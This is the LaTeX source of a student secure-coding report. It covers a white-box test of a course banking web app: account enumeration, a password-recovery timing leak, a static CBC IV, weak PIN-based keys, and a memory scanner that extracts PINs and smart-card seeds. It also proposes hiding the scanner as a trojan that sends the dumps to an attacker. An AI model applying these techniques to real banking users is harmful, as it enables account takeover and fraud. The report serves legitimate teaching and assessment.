\documentclass{report}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{color}
\usepackage{multirow}
\usepackage{graphicx}
\usepackage{titletoc}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{pink}{rgb}{1,0.07,0.57}


\lstset{frame=tb,
  language=Java,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{blue},
  keywordstyle=\color{pink},
  commentstyle=\color{dkgreen},
  stringstyle=\color{blue},
  breaklines=true,
  breakatwhitespace=true
  tabsize=3
}

\lstset{language=Java}

\title{Secure Coding - Team 7- Phase 4}
\author{Magnus Jahnen, Thomas Krex, Elias Tatros}
\date{\today}


\begin{document}

\maketitle

\part{Executive Summary}

This report states our findings in the white-box test of the NEXT9Bank web application from Team 8. We analyzed the PHP and JavaScript Code of the backend and the frontend web application. We also reverse engineered the code of the batch file parser written in C and the Java-SCS. After that we also analyzed and reverse engineered our own applications.

\subsubsection{Analysis}

The white-box analysis of the PHP and the JavaScript Code and our own PHP did not show a lot results. Most white-box analysis tools have problems with the object oriented PHP code and the AngularJS JavaScript code team 8 used within their whole application. There were not any usable results, mostly false positives.

By looking through the decompiled Java and PHP code, we found some weaknesses regarding the SmartCard files. These weaknesses are not really dangerous vulnerabilities, we could not gain any advantages from these. But nevertheless they should be eradicated.

For the analysis we stuck to the OWASP testing guide, and found some vulnerabilities in our as well as the NEXT9Bank web application, which are not absolutely related to white-box testing.

\subsubsection{Reverse Engineering}

The reverse engineering of the Java program was pretty simple in our as well as the application of team 8. Both teams did not use any obfuscation tools, hence the decompiled source code was very well understandable, and should be pretty similar to what the actual Java looks like.

The disassembly of the parser executable was a lot of more complex and harder to understand. The C parser from team 8 is pretty lightweight and was kept very simple. Therefore we managed it to write C code which does exactly the same as the parser provided by team 8. Our C parser is a lot more complex, because it validates the input and stores the information in the database.


\tableofcontents

\part{Time Tracking Table}
\chapter{Time Tracking Table}

\begin{table}[ht]
\centering
\begin{tabular}{|l|l|l|}
\hline
\multicolumn{3}{ |c| }{\textbf{Time Tracking}} \\
\hline
\textbf{Name} & \textbf{Time} & \textbf{Description} \\ \hline
\multirow{6}{*}{Magnus Jahnen} 
& 15h & Reverse engineer batch parser (team 8) \\ 
& 2h & Reverse engineer batch parser (own) \\
& 5h & Reverse engineer Java-SCS (team 8) \\ 
& 2h & Reverse engineer Java-SCS (own) \\
& 10h & Meetings \\
& 5h & Report \& Presentation \\ \hline
\multirow{6}{*}{Thomas Krex} 
& 3h & Self introduction into test environment and target application \\
& 5h & Searching for Vulnerabilities in PHP\&JavaScript Code and of Team 7  \\
& 11h & Testing own app according owasp checklist \\
& 6h & Exploiting Proccessing Time and Account guessing vulnerabilities\\
& 10h & Meetings \\
& 6h & Documentation \\ \hline
\multirow{6}{*}{Elias Tatros} & 2h & Static Analysis decompiled Java and PHP \\
& 4h & Finding Encryption Flaws in Java/PHP \\ 
& 5h & Analysis of application memory \\ 
& 15h & Planning, Implementation and Testing of Memory Scanner \\ 
& 6h & Working on Report (Sections on Key Weakness, Memory Scanner, Static IV)\\
& 10h & Meetings \\ \hline
\end{tabular}
\label{table:time_tracking}
\end{table}

\part{Most Important Observations}
\chapter{Most Important Observations}

\begin{table}[ht]
\centering
\begin{tabular}{|l|l|l|l|l|}
\hline
\multicolumn{5}{ |c| }{\textbf{Most Important Vulnerabilities}} \\
\hline
\textbf{Name} & \textbf{Impact} & \textbf{Likelihood} & \textbf{Risk} & \textbf{Chapter} \\ \hline
CWE-329: Use of static IV with AES/CBC & high & low - medium & high & \ref{chapter:static_iv}\\ \hline
Weakness in key generation and padding & high & low - medium & high & \ref{chapter:weak_key}\\ \hline
Memory Scan Attackn & high & low & high & \ref{SecMemoryScanAttack} \\ \hline
\end{tabular}
\label{table:most_important_observations}
\end{table}

\part{Vulnerabilities}
\chapter{Testing PHP and JavaScript Code with automated Tools}

\section{Testing PHP Code}

First of all, the php code is very structured and readable. Although that makes it easy to understand what the code is doing, we couldn't find big vulnerabilities in the php code.
We used  the two automated tools RATS and RIP for testing the PHP code. While Rats doesn't find any vulnerabilities at all, RIPS is claiming some including errors, shown in Listing .
\begin{lstlisting}[caption= Output of automated testing tool RIPS]
Include error: tried to include: /Phase4/secure-coding/backend/rest/include/libphp-phpmailer/class.smtp.php
9: require require ("libphp-phpmailer/class.smtp.php"); 

Include error: tried to include: /Phase4/secure-coding/backend/rest/include/libphp-phpmailer/class.pop3.php
10: require require ("libphp-phpmailer/class.pop3.php"); 

Include error: tried to include: /Phase4/secure-coding/backend/rest/include/libphp-phpmailer/class.phpmailer.php
11: require require ("libphp-phpmailer/class.phpmailer.php"); 
\end{lstlisting}
These errors are not leading to vulnerabilities. The reason for the lack of found vulnerabilities besides the quality of the code, is the fact, that it's object oriented. Both tools are clearly stating that they don't support object oriented php code yet. So these results are no big surprise.

\section{Testing JavaScript Code}
Since the application uses  the AngularJS framework to enhance html, we decided to test the javascript code in terms of security. Therefore we used two Testing Tools: JSPrime and ScanJS. Both tools doesn't return any output at all. That's because they apparently can't handle the AngularJS specific code design. Furthermore we couldn't any other AngularJS specific vulnerable which are known for current versions.




 
\chapter{Testing for Account Enumeration and Guessable User Account (OTG-IDENT-004)}
\subsection{Observation}
Existing User accounts can be guessed via bruteforce attacks. There are tow ways to do it. One way is to use the blocking mechanism, which sends a message to the user after 3 unsuccessful attempts. Therefore the attacker is able to find valid user accounts.
A second and even easier way is to use the  password recovery function. There you get immediately an negative feedback if you are inserting a non existing account email address and a positive feedback for an existing  one.


Likelihood: high \newline

Impact: low\newline

Risk: medium\newline

\subsection{Discovery}
This vulnerability was found in login.php, where a blocking mechanism is implemented, shown in Listing \ref{listing:blocking}.  Each user has a field for unsuccessful login attempts. If this number is greater equal a predefined threshold, the browser  receives a JSON file containing a message which is displayed via javascript.
\begin{lstlisting}[caption= Blocking Mechanism in login.php line 54-59 ,label=listing:blocking]
// Check if user is blocked
if( $user->getBlocked() >= USER_MAX_LOGIN_FAILED ) {
$parser->setStatusCode( STATUS_CODE_ERROR )
->setStatusMessage( ERROR_ACCOUNT_BLOCKED )
->parse();
}
\end{lstlisting}

For the Password Recovery  functionality, the corresponding code is placed in ForgotPassword.php, shown in Listing \ref{listing:forgotPassword} . Before a new password for the user is generated, the entered email address is validated.  If a account with the email address is not existing, a JSON file is sent to the browser and its message is displayed via javascript. Else a new password is generated and sent via mail. A JSON File with a confirmation message is sent to the browser as well. Due to the fact, that the webservice is a REST-Service, you can automate this guessing process by sending a POST request to <ip>/rest/index.php with the name of he service, in our case "forgotPassword" and the email address as arguments. This is done by a script(Chapter \ref{appendix:validate_via_response}), which a text file with email addresses and returns the ones that are valid. The only disadvantage of this approach, is the fact, that the user are receiving emails with new passwords. That could alarm some of them, but nonetheless, some will not notice it.

\begin{lstlisting}[caption= Validating Email before generating new Passowrd  line 54-59 ,label=listing:forgotPassword]
$hash = new Hash();
$user = new User();

$user = $user->findByEmail($emailAddress);

if( !$user->getId() ) {
$parser->setStatusCode( STATUS_CODE_ERROR )
->setStatusMessage( "Email address not found." )
->parse();
}

$newPassword = $hash->createRandomString( 15 );
$saltedPassword = $hash->saltPassword($newPassword, $user->getSalt());

$user->setPassword($saltedPassword)->save();

Mail::sendNewPassword($user, $newPassword);

/***************************
* 3. Parse Response
**************************/

$parser->setStatusCode( STATUS_CODE_SUCCESS )
->setStatusMessage( "New password set" )
->parse();
\end{lstlisting}



\subsection{Likelihood}
It's very likely that attackers will use this vulnerability to guess some user accounts, since they receive a graphical feedback if the account exists.


\subsection{Implication} 
This vulnerability leads to a disclosure of user accounts. The impact of that depends on the actions which are possible with a valid user account. In our case there are no possible attacks without knowing the password for this account.


\subsection{Recommendations}
For the login screen  you could send an email to the user with a notification, that the account is blocked, to avoid this leakage of information. For the Password Recovery, you simply don't notify the user if an account if the email exists. 

\subsection{Comparison with our App}
Since there's no blocking mechanism for unsuccessful login attempts in our app, there also is no leakage of information. Therefore it's not possible to guess valid user accounts. When recovering the password, no information about non-existing/ existing accounts is leaking.


\chapter{Test for Process Timing (OTG-BUSLOGIC-004)}
\section{Observation}
	We observed that the process time of the password recovery service is leaking information about existing accounts.
	If the user enters an email address of an existing account, an email with a new password is sent and therefore the processing time increases significantly.\\


Likelihood: medium \newline

Impact: low\newline

Risk: medium\newline

\section{Discovery}
This vulnerability was found when testing the password recovery function, reachable at the login screen via the link " Forgot Password?".
After we noticed the time difference between entering a valid email address and a invalid one, we calculated the average response time of an valid and an invalid email address with a PHP Script (Appendix \ref{appendix:average}), which sends  100 POST requests with each a valid and an invalid email address to the corresponding REST Service and records the response times. The results are shown in Listing \ref{listing:response_time_test}.

\begin{lstlisting}[caption= Results of Testing Respone Time of Password Receovery ,label=listing:response_time_test]
-bash-3.2$ php password_recovery_test_response_time.php 
Average Response Time for valid address: 2.84551978
Average Response Time for invalid address: 0.06285205
\end{lstlisting}

Due to the significant difference, we wrote another script (Appendix \ref{appendix:validate_via_time}) which take a list of email addresses and returns the valid ones by comparing the response time with a threshold, which can be provided by the user as well. We chose two seconds for the threshold, because of the results shown above. All Tests resulted in a 100\% success rate. Of course this can differ under certain circumstances( e.g. heavy traffic load). 

\section{Likelihood}
It's very likely that attackers will use this vulnerability to guess some user accounts, since the difference in response times is significant. Furthermore an attacker could try 1000 invalid email addresses in round about one minute. 

\section{Implication} 
This vulnerability leads to a disclosure of user accounts. The impact of that depends on the actions which are possible with a valid user account. In our case there are no possible attacks without knowing the password for this account.


\section{Recommendations}
To Avoid this kind of information leakage you there a few solution. First you could implement a time-out for the case that the user entered a invalid address, so that the process times equal. Second you could send a response without waiting the email to be sent.
That could result in a worse user experience because he/she doesn't get a feedback. But in would solve the problem of information leakage.



\chapter{CWE-329: Use of static IV with Rijndael CBC}

Next9 bank makes use of a 512 bit hash value $scs_{seed}$. This value is used to generate TANs for the smart card simulator. It is recalculated after each successful transaction. The $scs_{seed}$ is generated on the server side and then encrypted using the Rijndael algorithm with a block size of 128 bits and a 128 bit key $k_{enc}$ (according to the AES-128 standard): $$enc_{k_{enc}} (scs_{seed}).$$
The encrypted 512 bit hash is saved to a file, which is then offered to the user for download. 

The user is supposed to download the file and use it as input for the smart card simulator, which in turn uses it to generate a TAN, that can be used to commit transactions. The user is asked to enter his 6 digit SCS PIN, which is utilized by the SCS to generate the decryption key $k_{dec}$. The key is then used to decrypt the 512 bit hash provided by the user. The original $scs_{seed}$ is obtained if $k_{enc} = k_{dec}$.

By inspecting the decompiled java code (and the php source code) we discovered, that a \emph{static IV} is used to initialize the cipher for \emph{CBC} (\emph{Cipher-Block-Chaining}) mode.
\begin{center}
\begin{figure}[hbtp]
        \centering
        
\includegraphics[natwidth=162bp,natheight=227bp]{staticIV.png}
        \caption{Use of static IV in CBC mode}\label{figStaticIV}
\end{figure}
\end{center}

Figure \ref{figStaticIV} shows an excerpt of the decompiled java code. It is notable, that the \emph{IV} is always initialized with the character sequence \emph{fedcba9876543210}. Using a static \emph{IV} in \emph{CBC} mode is a bad idea and a potential security weakness. In \emph{CBC} the plaintext is split into 16-byte blocks. Before encryption, each block is \emph{XORed} with the ciphertext of the previous block. This is true for all blocks, except for the first block, since there exists no ``previous ciphertext'' block to XOR it with. Because of this, the \emph{IV} is used as a substitude, effectively acting as the ciphertext of the ``-1'' block.

Using a static \emph{IV} with \emph{CBC} means that if two messages start with the same bytes, the ciphertext will be identical for the first (or even more) block(s). This gives unnecessary information to a potential attacker and can enable certain attacks. For example, if only a couple of short messages are sent (e.g. commands), which differ only in a few bytes (e.g. \emph{command=OPEN} vs. \emph{command=CLOSE}), an attacker can potentially determine which message carries what command by analyzing the frequency of each first block. 

It also completeley defeats the purpose of using an \emph{IV} with chaining mode at all, since an \emph{IV} in chaining mode is supposed to randomize the input of the first block, in the same way as it is done by \emph{CBC} for the following blocks.

A further problem is that the java code is run on client machines and accessible for any attacker that manages to decompile the jar file, which should be an easy task. It is therefore easy for an attacker to find the concrete value of the \emph{IV}. This value is not only valid for his machine and one message, but for all machines of all customers and for all messages. As shown in section \ref{SecMemoryScanAttack} this knowledge can be used to target customers with exploits that steal sensitive information, such as their SCS Pin and SmartCards.

\section{Change Recommendations}
The obvious solution is to use a different, randomly generated \emph{IV} for each encrypted message. It easily solves all of the problems mentioned. With a random \emph{IV} first blocks of ciphertexts are no longer identical even for identical plaintexts and attackers who decompile the jar can no longer gain easy access to a concrete \emph{IV} value, which prevents certain attacks, such as the one shown in \ref{SecMemoryScanAttack}. PHP \ref{listing:phpiv} and Java \ref{listing:javaiv} both offer functions to create cryptographically secure random initialization vectors, as shown below.

\begin{lstlisting}[caption= PHP IV generation,label=listing:phpiv]
 $iv_size = mcrypt_get_iv_size(MCRYPT_RIJNDAEL_128, MCRYPT_MODE_CBC);
 $iv = mcrypt_create_iv($iv_size, MCRYPT_RAND);
\end{lstlisting}

\begin{lstlisting}[caption= Java IV generation,label=listing:javaiv]
SecureRandom random = new SecureRandom();
byte iv[] = new byte[16];
random.nextBytes(iv);
IvParameterSpec ivspec = new IvParameterSpec(iv);
\end{lstlisting}

\chapter{Weakness in key generation and padding}
The effectiveness of a symmetric encryption algorithm in terms of the provided confidentiality is always depended on the key size. An advanced encryption standard, such as AES is not a silver bullet. The security of symmetric encryption algorithms is quickly compromised if configured with insufficient care.


The next9 bank encryption key is generated by taking the users SCS password (a $6$ character number) and then padding it with the character sequence ``0000000000''. The key is not derived from the password in any way, but rather the key is the actual password plus $80$ bits of $0$ padding. Therefore the meaningful bits of the key are reduced to the size of the password, which is $6$ characters or $48$ bits long. Even if all bits were perfectly random and uniformly distributed, we would already consider this to be a pretty weak key.

However, we also know that the SCS password can only consists of digits, which drastically reduces the entropy of the key even further. A 48 bit key can result in $2^{48}$ different values. When doing encryption it is important that every single one of these values has the same probabilty of ocurrence. This is what CSPRNGs (cryptographically secure pseudo-random number generator) are usually used for.  In the optimal case a 48 bit key produced by a CSPRNG would have an entropy of 48 bits.

However, in this case the bits in the key are not uniformly distributed. In fact, for a 6 digit number each digit can take on a value between $0$ to $10$, resulting in a total of $10^6$ or $1$ million values. Such a string gives $20$ bits of entropy in the best case, meaning if we assume that each digit in the SCS password is chosen completeley randomly. 

The method of key generation used significantly reduces the strength of the key and consequently the effectiveness of the entire encryption. A $48$ bit key with only $20$ bits of entropy does not measure up to todays encryption standards. 

\section{Change Recommendations}
A quick fix for this issue would be to remove the 0 padding and generate the key by running the SCS password through a cryptographic hash function, such as HMAC. In a final step the output would be reduced to the first $128$ bits, resulting in a more secure key.

\chapter{Memory Scan Attack}
\label{SecMemoryScanAttack}
After gaining knowledge of the weaknesses in the encryption module we developed a method to exploit the usage of the static \emph{IV} and the flawed key generation technique.

\section{Client Side Analysis}
Our attack is aimed at the client machines of customers using the smart card banking method provided by Next9. The attack shows that a large amount of sensitive data is stored in memory for long times. The data is stored in plain text, not encrypted or hashed. This includes the users SCS Pin, the seed (which effectively acts as the smart card) in encrypted and unencrypted form and the symmetric encryption key. Once an attacker obtains the seed and the pin, he can create his own smart card from the seed and use the pin to commit his own transactions on behalf of the user.
\begin{center}
\begin{figure}[hbtp]
        \centering
        
\includegraphics[scale=0.6]{Scanner.png}
        \caption{Our SCS Memory Scanner}\label{figMemoryScanner}
\end{figure}
\end{center}
During our analysis we wrote a custom program, which is able to obtain the sensitive data from memory using the static \emph{IV} (fedcba9876543210) as a ``point of reference''. The \emph{IV} was discovered within the decompiled SCS jar. For experimentation and demonstration purposes the program comes with a usable GUI, as shown in Figure \ref{figMemoryScanner}. An actual exploit would of course be deployed invisibly (for example via some drive-by download, USB stick, etc.) or hidden as a trojan in a seemingly useful user application.

The scanner works by opening the java process executing the SCS module and obtaining its memory base address. Since the SCS program stores sensitive data as plaintext in strings it is quite easy to find occurrences of this data in memory. In the scan step the program searches for a byte sequence which is equal to the static \emph{IV}. The search process can be limited to a memory offset area (from the base address) specified under ``search area'', which can speed up the task in some cases. Usually the scanner will find 6 instances of the plaintext static \emph{IV} in memory and ``remember'' those specific addresses.
\begin{center}
\begin{figure}[hbtp]
        \centering
        
\includegraphics[scale=0.6]{dump.png}
        \caption{Sensitive Information in plain text}\label{figDump}
\end{figure}
\end{center}
By dumping the memory around these addresses we can find other sensitive data, which includes the users SCS PIN, the seed (unencrypted and encrypted) and the encryption key in plain text. The program enables us to dump memory located below and above the addresses of interest and we can also specify the size of the dump in bytes. Figure \ref{figDump} was constructed from 3 different dump files (divided by red bars), each containing 1024 bytes of data around three of the six addresses of interest (static \emph{IV} locations). One can easily make out the sensitive data and automatically parse it. Given the knowledge that the encryption key is made up by the user pin and 10 zeros of padding we can immediately locate the user pin and encryption key. We can identify which of the two seeds is the ciphertext or plaintext by applying the encryption key in combination with the \emph{IV} to each sequence. If we obtain one of the sequences by encrypting the other, we found the unencrypted seed.
An attacker could modify the program to automatically send those dumps to some collecting machine over the network. After obtaining the user pin and smart card (seed), he or she is able to commit transactions on behalf of that user to any destination, simply by downloading the SCS Software from the Next9 website, pasting one of the seeds into a file (smart card), loading this file in the SCS and entering the corresponding user pin.

\section{Server Side Analysis}
Server side Next9 bank does a good job of keeping attackers at bay. We did not find any practical attacks that could be used to exploit the encryption weaknesses on the server side. From our point of view the only potential attack surface presented on the server side is the C program for batch transaction processing. The C program was decompiled without issues and it seems that no code obfuscation was used. We did not find any way to directly cause stack overflows or similar vulnerabilities through the manipulation of program input. However, the C program is definiteley susceptible to memory tampering attacks. 

There is seemingly no protection versus memory tampering and the simple structure of the program makes it easy to find static pointers to sensitive data such as user TANs used in transactions. Given a static pointer not even a scanner would be required. Using mostly the same techniques as done in our memory scan attack for the client SCS program, a similar attack can be mounted against the server side batch transaction parser program. For example, a hidden program could be used to attach to the parser process, reading the sensitive data from memory and sending it over the network to the attacker. Although, we do admit that deploying such a program would not be an easy task, since one would first require access to the machine which is running the parser program. It is however still a possibility that someone with sufficient access could be able to deploy the exploiting program, for example via a USB stick or possibly some remote access software used in server administration. Also the discovery of some future loophole might enable attackers to deploy the program without insider help.

\section{Change Recommendations}
We recommend the usage of address space layout randomization (ASLR) and pointer encryption for both the server side parser and the client side SCS program. While ASLR is active on the linux VM, this only randomizes the locations of stack and libc addresses. In order to create a truly position independent executable it is necessary to use the compiler flag \emph{-PIE}. On gcc the relevant flag is \emph{-fPIE}. Tools such as PointGuard can prevent pointer corruption and many related attacks by encrypting pointers and only decrypting them when loaded into CPU registers.

For java we recommend that any information that needs to be stored persistently is encrypted in memory. Any confidential information that can not be encrypted should quickly be purged from memory after use. This means that Strings can not be used to store sensitive data such as initialization vectors, user PINs or encrytpion keys. This is because Strings are immutable and can not safely be overwritten in memory. Instead one should use StringBuilder or an array of characters, or a custom data structure. A better approach might be to directly access memory via unsafe code to store sensitive data and then erase its contents after processing. This technique is described in the Oracle java secure coding guidelines under \emph{Guideline 2-3 / Confidential-3}. Additionally, we recommend turning off core-dumps as these can leak sensitive data that was in memory. As a last step it might be a good idea to digitally sign the jar file, which could prevent the distribution of tampered SCS jars.

\part{Reverse Engineering}
\chapter{C-Program}

\section{Observation}

The C-Parser to parse batch files is pretty simple. It takes a simple structured text file, parses the information in this file and puts out these information on the standard output in JSON format. That means the C-Parser does not have to do any complex tasks, like validating the given input or entering these information into the database. It just converts the input into another format (JSON).

\subsection{Batch File Format}

Listing \ref{listing:batch_example} shows an example of an batch file the parser gets as input. The first line has to contain the 15-digit TAN, if there is any TAN. The following lines contain two infomation split by an space. The first information is the amount, the second the number of the receiving account. All other lines which do not conform to the format described above will be ignored and not part of the JSON output.

\begin{lstlisting}[caption=Input Batch File,label=listing:batch_example]
123456789012345 // optional TAN
123 123123123
123123 123
123123 123123
\end{lstlisting}

\subsection{JSON Output}

Listing \ref{listing:json_output} shows the JSON output of the parser according to Listing \ref{listing:batch_example}. The first line shows the output if a TAN is included, the second without a TAN. The JSON is pretty simple, on the first level there is a TAN which can be an empty string or the TAN, if any. There \textit{transaction} key delivers a list of dictionaries, which are the second level. In these dictionaries are always two entries. The account number of the receiving account and the amount to transfer. The actual parsing, validation and adding the information to the database is then done by the PHP program.

\begin{lstlisting}[caption=JSON Output,label=listing:json_output]
{"tan": "123456789012345", "transactions": [{"account": "123", "amount": "123123123"}, {"account": "123123", "amount": "123"}, {"account": "123123", "amount": "123123"}]}
{"tan": "", "transactions": [{"account": "123", "amount": "123123123"}, {"account": "123123", "amount": "123"}, {"account": "123123", "amount": "123123"}]}
\end{lstlisting}

\section{Discovery}

To reverse engineer the code of the parser we used different versions of IDA (Pro) for Linux and Windows (Wine). First steps we performed were debugging the parser in IDA in order to gain an overall knowledge about how the program flow is, i.e. how does it react to invalid files or input. Next we tried to evaluate how the program flows within valid files. That means we wanted to understand conditions and loops.

After that we tried to write some C Code to imitate the parser. Therefore we began writing simple code for opening and reading the file, then we compiled it and disassembled it with IDA and compared the original disassembly of the actual parser and our clone. As soon as we were satisfied with the result, we continued with the other parts of the parser.

During this process we recognized that the original parser was compiled with the \textit{gcc} option \textit{fstack-protector(-all)}. This activates protection of the stack against stack smashing with the help of canary values. This makes it more difficult for an attacker to exploit buffer overflows.

\section{Analysis of the Reverse Engineered Code}

Listing \ref{listing:c_code}  shows the code we reverse engineered from the parser executable file. The program is pretty straight forward. It first checks if the file to parse is valid and can be accessed via the program. After that it begins reading from the file via the class \textit{ifstream} from the standard C++ library. If the first line contains 15 and no space elements the parser knows that it is TAN. Otherwise it parses the account number and the amount from that line. Further lines will be treat as if they contain account number and amount.

\begin{lstlisting}[caption=Reverse Engineered C-Code of the parser,label=listing:c_code]
#include <iostream>
#include <fstream>

#include <unistd.h>
#include <string.h>

using namespace std;

int main(int argc, char **argv) {
	
	if(access(argv[1], R_OK)) {
		cout << "{}";
		return 0;
	}
	
	ifstream file;
	file.open(argv[1]);
	
	if(!file.good()) {
		cout << "{}";
		return 0;
	}
	
	char buffer[0x1A];
	char dest[0x1A];
	bool tanAlreadyRead = false;
	bool appendToList = false;
	
	cout << "{";
	
	while(!file.eof()) {
		
		if(!tanAlreadyRead) {
			strcpy(dest, buffer);
			file.getline(buffer, 0x1A);
			char *token = strtok(buffer, " ");
			
			if(file.fail() || !token) {
				cout << "}";
				return 0;
			}
			
			string tokenstr = string(token);
			if(tokenstr.length() == 15) {
				cout << "\"tan\": \"";
				cout << token;
				cout << "\", \"transactions\": [";
				tanAlreadyRead = true;
			} else {
				cout << "\"tan\": \"\", \"transactions\": [";
				
				char *acc = strtok(dest, " ");
				
				if(acc) {
					char *amount = strtok(NULL, " ");
					
					if(amount) {
						cout << "{\"account\": \"";
						cout << acc;
						cout << "\", \"amount\": \"";
						cout << amount;
						cout << "\"}";
						appendToList = true;
					}
				}
				tanAlreadyRead = true;
			}
		} else {
			if(file.fail())
				break;
			
			file.getline(buffer, 0x1A);
				
			char *acc = strtok(buffer, " ");
				
			if(acc) {
				char *amount = strtok(NULL, " ");
					
				if(amount) {
					if(!appendToList) {
						cout << "{\"account\": \"";
						cout << acc;
						cout << "\", \"amount\": \"";
						cout << amount;
						cout << "\"}";
						appendToList = true;
					} else {
						cout << ", {\"account\": \"";
						cout << acc;
						cout << "\", \"amount\": \"";
						cout << amount;
						cout << "\"}";
					}
				}
			}
		}
	}
	
	cout << "]";
	cout << "}";
	
	return 0;
}
\end{lstlisting}

Regarding buffer overflows the statements which contain the \textit{getline} and \textit{strcpy} directives (stack overflow)  are interesting. Heap overflows are not possible, because all memory is allocated on the stack and not the heap (no \textit{new} or \textit{malloc}).

\subsubsection{getline}

The \textit{getline} method of the \textit{ifstream} class takes a buffer and a size as arguments. The buffer will have a terminating null character at its end regardless if the line read has to be truncated or not. That means the buffer is always null terminated. The \textit{getline} method will only read as much bytes as the \textit{size} argument suggest to avoid buffer overflows. That means stack overflows are not possible here.

\subsubsection{strcpy}

Normally \textit{strcpy} would allow stack overflows, because it only looks at the null terminator for a string ending, not on the actual buffer size of the destination buffer. But in this case the terminating null character will always be at a place where it does not exceed the destination buffer size, because of the \textit{getline} call before. The \textit{getline} only reads as much bytes as fit in the buffer and then adds a terminating null character at the end. That means the \textit{strcpy} call will always stop at the null terminator which will not be misplaced or missing! Same applies to the \textit{strtok} function, which always stops at the null termination.
\chapter{Java-Program}

\part{Own Application}
\chapter{Tested Vulnerabilities}
\section{Test Application Platform Configuration (OTG-CONFIG-002)}
We only run the services required by our application to reduce attack surface.
\section{Test File Extensions Handling for Sensitive Information (OTG-CONFIG-003)}
We made sure that we do not serve any plain text files with sensitive information from our web root directory.
\section{Enumerate Infrastructure and Application Admin Interfaces (OTG-CONFIG-005)}
Our application admin interfaces are locked via session checking.
\section{Test Role Definitions (OTG-IDENT-001)}
Our application features two role definitions, which are the customer role and the employee role.
We clearly defined permissions for each of the two roles. These permissions are enforced by our session management for each web page.
\section{Test User Registration Process (OTG-IDENT-002)}
Our registration process allows registration of any user with a valid email address. All registration applications are checked and verified by one of our employees before the account is activated. Therefore automated registrations are possible to be monitored by the system.

\section{Test Account Provisioning Process (OTG-IDENT-003)}
All users applications are verified by one of our employees. All employee applications must be verified by one of our existing employees.

\section{Testing for Account Enumeration and Guessable User Account (OTG-IDENT-004)}
The app doesn't leak any information about existing user accounts. 
In the login screen there's no difference between entering an existing email address and a non-existing one.
At the password recovery service, it's the same. So it's not possible to guess existing user accounts.

\section{Testing for Weak or unenforced username policy (OTG-IDENT-005)}
Instead of possibly insecure, guessable user names, we are using the email address as the main identifier for our customers. As described in OTG-IDENT-004, our application does not leak any information about existing accounts.

\section{Testing for Credentials Transported over an Encrypted Channel (OTG-AUTHN-001)}
All communication between clients and our application is done via HTTPS. To enforce this policy we redirect any HTTP request to HTTPS. Therefore no credentials are transmitted in plain text.

\section{Testing for default credentials (OTG-AUTHN-002)}
We do not use any default credentials in our app. 

\section{Testing for Bypassing Authentication Schema (OTG-AUTHN-004)}
The session management of our application enforces the authentication schema and role permissions on each web page.
 
\section{Testing for Vulnerable Remember Password (OTG-AUTHN-005)}
All passwords are salted and then stored in hashed from using the sha-256 algorithm. Additionally we do not store any sensitive information in cookies except for the session id.

\section{Testing for Browser cache weakness (OTG-AUTHN-006)}
This vulnerability is avoided by using HTTPS.

\section{Testing for Weak password policy (OTG-AUTHN-007)}
Our password policy provides sufficient security regarding password strength. All password must contain at least one upper case letter, one lower case letter and one number. The password must be at least 8 characters long.

\section{Testing Directory traversal/file include (OTG-AUTHZ-001)}
The apache web server on our VM is configured to not allow directory listing and traversal. Furthermore we configured read/write/execute permissions for the apache user as strictly as possible. Therefore it should not be possible to access directories outside of what is allowed by the permissions.

\section{Testing for Bypassing Authorization Schema (OTG-AUTHZ-002)}
This vulnerability is not relevant because of our session management as mentioned previously in OTG-AUTHN-004.

\section{Testing for Privilege escalation (OTG-AUTHZ-003)}
The session managements controls the permissions of each user based on the role definitions. Therefore the users can not commit actions outside of their assigned role. Users are also not allowed to change their role and to our knowledge there exists no vulnerability that would allow this behaviour. 

\section{Testing for Session Fixation (OTG-SESS-003)}
Our session ids are regenerated for each login process, which avoids this vulnerability.

\section{Testing for Exposed Session Variables (OTG-SESS-004)}
The session id is the only critical information stored in our cookie. It is regenerated for each login and during transit it is encrypted via HTTPS.

\section{Testing for logout functionality (OTG-SESS-006)}
Our application provides a manual log out functionality which destroys the session and all data associated with it. We use the default session time out mechanism provided by php.

\section{Testing for Session puzzling (OTG-SESS-008)}
In our application the session is only started at the login and destroy at the logout. There are no other entry points which could be used to overload sessions.

\section{Testing for Buffer Overflow (OTG-INPVAL-014)}
To our knowledge there exist no possibilities for heap or stack overflows, since we tried to avoid allocating space on the heap and used secure functions for copying buffers. However we could improve on security by adding the compiler flag \textit{-fPIE} in gcc to randomize address locations, making it harder for an attacker to cause buffer overflows.

\section{Testing for Weak SSL/TLS Ciphers, Insufficient Transport Layer Protection (OTG-CRYPST-001)}
We assume that the SSL/TLS implementation of the Apache web server used for HTTPS, is secure.

